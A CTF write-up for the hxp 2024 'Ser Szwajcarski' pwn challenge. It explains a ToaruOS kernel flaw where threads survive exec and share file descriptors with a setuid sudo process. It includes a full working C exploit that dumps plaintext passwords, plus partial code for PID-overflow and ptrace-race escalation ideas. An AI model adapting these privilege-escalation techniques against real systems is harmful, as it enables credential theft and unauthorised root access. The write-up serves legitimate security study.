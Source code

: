 ```yaml
---
title: Ser Szwajcarski
description: I like cheese with lots of holes. 🪤🫕🐭
categories: ["ctf", "hxp 2024"]
tags: ["pwn"]
media_subpath: "/assets/posts/2024/hxp/ser-szwajcarski"
---
```


We are given an image of the latest release of the [ToaruOS project](https://github.com/klange/toaruos)
and access to a shell as the `local` user. The goal is to read `/flag.txt` owned by root.

There are multiple vulnerabilities in the project, but the one I used resides in the way the OS handles
threads inside processes.

The `pthread_create` implementation calls `sys_clone`:
![](01.png)

`sys_clone` will call `clone` from `process.c`:
![](02.png)

This function will call `spawn_process` with the last argument (flags) set to 1.
This is the equivalent of `PROC_REUSE_FDS`, which, when set, will simply reuse the 
FD table for the new thread (process):
![](03.png)

The problem is that when `exec`-ing a new image, the threads created are not stopped.
This means that you can have a thread inside a new process and access every FD from it.
The thread will have a different address space, of course, but having access to the FD list
is enough to achieve privilege escalation.

The `sudo` binary has the `setuid` bit set (similar to Linux). It uses a custom library
called `libauth` to check the credentials, which opens `/etc/master.passwd`. The credentials 
are stored in plaintext.

Having access to the FD list of the `sudo` process, we can bruteforce the FDs to read the passwords.

## Building an app for ToaruOS

The OS uses a custom toolchain based on GCC and there are numerous ways to build an app for it.
I used the official documentation to build the entire OS, and added a custom application in the `apps` folder.
The Makefile builds everything, including the apps. The readme on GitHub provides some snippets to build the OS
inside Docker. After the app is built, I copied it alongside `flag.txt` in the Docker image provided by the CTF.

On the remote, I used the `fetch` binary, which comes preinstalled with the OS and is similar to `curl`.

## Final exploit

```c
#include <unistd.h>
#include <stdio.h>
#include <sys/ptrace.h>
#include <unistd.h>
#include <sys/wait.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/signal_defs.h>
#include <sys/uregs.h>
#include <pthread.h>
#include <errno.h>

void* threadHandler(void* _unused) {
  for (;;) {
    usleep(100);
    for (int fd = 3; fd < 7; fd += 1) {
      char content[1024] = { 0 };
      int bytesRead = read(fd, content, sizeof content);
      if (bytesRead <= 0) {
        continue;
      }
      printf("%s\n", content);
    }
  }

  return NULL;
}

void threadThing() {
  pid_t pid = fork();

  if (pid < 0) {
    printf("Error forking: %d (%s)\n", errno, strerror(errno));
    exit(-1);
  }

  int isChild = pid == 0;

  if (isChild) {
    pthread_t thread;
    pthread_create(&thread, NULL, threadHandler, NULL);
    char* args[] = { "/bin/sudo", "-s", NULL };
    execvp(args[0], args);
  } else {
    waitpid(pid, NULL, 0);
  }
}

int main() {
  threadThing();
}
```

After multiple runs, the exploits successfully dumps the password list. The `local` user is already in `sudoers`,
so we can get a shell with `sudo -s` and the password of the `local` user.

## Other exploits considered

### PID overflow

The PID is stored in a variable of type `int` and is not reused when a process exists.
![](04.png)

If we manage to create enough processes to overflow the variable, we can get a process with PID 0.
This has several implications, for example the `ptrace` handler checks if the tracer is the current process,
but when a process does not have a tracer, the `tracer` field is zero. So, if we have access to a process with PID
0, we can trace (almost) any process:
![](05.png)

However, after creating ~30.000 processes, the instance crashes. Probably there was a memory leak somewhere.
Here is the code I used to test that:
```c
void bruteforcePids() {
    for (int i = 0; i < 100000; i += 1) {
        pid_t pid = fork();
        if (pid < 0) {
            printf("Error forking: %d (%s)\n", errno, strerror(errno));
            exit(-1);
        }

        int isChild = pid == 0;

        if (isChild) {
            exit(0);
        } else {
            if (i % 10000 == 0) {
                printf("%d: %d\n", i, pid);
            }
            waitpid(pid, NULL, 0);
        }
    }
}
```

### Race condition in `ptrace`

When a process is `ptrace`d, the kernel sets 2 flags on the process object while holding a lock:
![](06.png)

When a process is launched, and the file has the `setuid` bit set, the kernel checks if the process
is being `ptrace`d, and in that case ignores the bit:
![](07.png)

The issue is that checking these flags is not done by holding that lock. So you can create a race 
between these 2 functions and have a process with root privileges being `ptrace`d by a normal user.

I didn't end up implementing this, as the race was pretty tight, but it is possible in theory. I only
have bits of the code which sets up the `ptrace`ing:

```c
void child() {
    long status = -1;

    printf("hello from child\n");

    status = ptrace(PTRACE_TRACEME, 0, NULL, NULL);
    if (status != 0) {
        printf("error PTRACE_TRACEME: %ld\n", status);
        exit(0);
    }

    char* args[] = { "/bin/sudo", "-s" };
    status = execvp(args[0], args);

    printf("exec failed: %ld\n", status);
}

void parent(pid_t pid) {
    int childStatus;
    while (1) {
        pid_t result = waitpid(pid, &childStatus, WSTOPPED);

        if (result < 0) {
            continue;
        }

        if (WIFSTOPPED(childStatus) && WSTOPSIG(childStatus) == SIGTRAP) {
            struct URegs regs;
            ptrace(PTRACE_GETREGS, pid, NULL, &regs);
            int event = (childStatus >> 16) & 0xff;
            if (event == PTRACE_EVENT_SYSCALL_ENTER) {
                printf("Got syscall: %ld\n", regs.rax);
            }
            ptrace(PTRACE_CONT, pid, NULL, NULL);
        }
    }
}

void ptraceThing() {
    pid_t pid = fork();
    if (pid < 0) {
        printf("Error forking: %d (%s)\n", errno, strerror(errno));
        exit(-1);
    }

    if (pid != 0) {
        parent(pid);
    } else {
        child();
    }
}
```
